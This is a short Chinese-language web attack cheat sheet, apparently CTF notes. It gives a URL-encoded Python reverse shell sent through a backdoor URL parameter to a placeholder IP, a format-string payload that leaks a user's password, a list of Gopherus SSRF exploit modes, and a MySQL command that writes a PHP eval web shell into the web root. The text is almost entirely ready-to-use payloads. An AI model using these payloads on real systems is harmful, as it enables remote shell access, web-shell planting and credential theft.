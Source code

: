 # Python

反弹 shell

    python反弹shell

    /no_one_know_the_manager?key=自己填key&shell=python%20-c%20%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22xx.xx.xx.xx%22,9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/bash%22,%22-i%22]);%27

## Python 格式化字符串漏洞

```python
def view(request,*args,**kwargs):
    template='Hello {user},This is your email:'+ request.GET.get(email)
    return HttpResponse(template.format(user=request.user))
# ?email={user.pk}|{user.username}|{user.password}
```

## ssrf

`[De1CTF 2019]SSRF Me`

https://github.com/tarunkant/Gopherus

| Command            | Description           |
| ------------------ | --------------------- |
| gopherus --help    | Help                  |
| gopherus --exploit | Arguments can be :    |
|                    | --exploit mysql       |
|                    | --exploit postgresql  |
|                    | --exploit fastcgi     |
|                    | --exploit redis       |
|                    | --exploit zabbix      |
|                    | --exploit pymemcache  |
|                    | --exploit rbmemcache  |
|                    | --exploit phpmemcache |
|                    | --exploit dmpmemcache |
|                    | --exploit smtp        |

```
gopherus --exploit mysql
username: root
execute: select '<?php eval($_POST[cmd]); ?>' INTO OUTFILE '/var/www/html/1.php';
```
